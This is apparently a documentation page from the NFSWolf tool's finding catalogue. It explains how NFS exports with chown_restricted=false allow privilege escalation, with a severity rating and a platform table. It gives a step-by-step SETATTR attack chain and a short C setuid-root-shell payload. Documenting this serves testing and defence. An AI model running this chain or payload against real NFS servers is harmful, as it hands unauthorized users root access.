

repository: StrongWind1/NFSWolf · page: security/privesc/F-4.6-unrestricted-chown/index.html · generator: mkdocs · copyright: Copyright © 2025 - 2026 StrongWind1

# F-4.6: Unrestricted chown (Any User Can Change File Ownership)

## Classification

- **Severity**: High
- **CVSS Vector**: Network / Low Complexity / Auth Required (any UID)
- **Affected Versions**: NFSv2, NFSv3
- **RFC Reference**: RFC 1094 S3.3 (SETATTR semantics), RFC 1813 S4.4 (PATHCONF)
- **Prerequisite**: Write access to at least one file on the export; server returns chown_restricted=false

## Summary

When PATHCONF reports `chown_restricted=false` for an export, any user who owns a file can change its uid and gid to arbitrary values via SETATTR. This breaks the fundamental Unix assumption that only root can give files away. An attacker can create a file, chown it to root, set the SUID bit, and execute it on any client that mounts the export without `nosuid`, achieving full root compromise without ever needing root credentials on the NFS server.

## Technical detail

### PATHCONF chown_restricted field

RFC 1813 S3.3.20 defines PATHCONF as returning filesystem properties per export. The `chown_restricted` field maps to `_POSIX_CHOWN_RESTRICTED`:

- **true** (normal): Only root can change file ownership. Non-root users can only chgrp to groups they belong to.
- **false** (dangerous): Any file owner can SETATTR the uid/gid fields to any value.

### Attack chain

```
1. Attacker connects as uid=1000 (any unprivileged user)
2. CREATE a new file -> attacker owns it
3. SETATTR uid=0, gid=0 -> file now owned by root (allowed because chown_restricted=false)
4. WRITE a SUID shell binary into the file
5. SETATTR mode=04755 -> SUID root
6. On any client mounting without nosuid: execute the binary -> root shell
```

### Where this occurs

| Platform | chown_restricted | Notes |
|----------|-----------------|-------|
| Linux ext4/XFS/btrfs | true (default) | POSIX compliant |
| Solaris UFS | Configurable | `rstchown` tuneable in `/etc/system` |
| HP-UX | Configurable | `setprivgrp` controls group ownership |
| AIX JFS/JFS2 | Configurable | `chown_restricted` mount option |
| FreeBSD UFS | true (default) | `sysctl kern.chown_restricted` |
| Windows NFS (NTFS) | false | NTFS has its own ACL model; POSIX semantics don't map cleanly |
| Legacy NAS appliances | Varies | Often misconfigured |

### SUID binary payload

```c
/* Minimal setuid root shell */
#include <unistd.h>
int main(void) {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", NULL);
}
```

With unrestricted chown, no `no_root_squash` is needed. The attacker changes ownership after creating the file as a regular user.
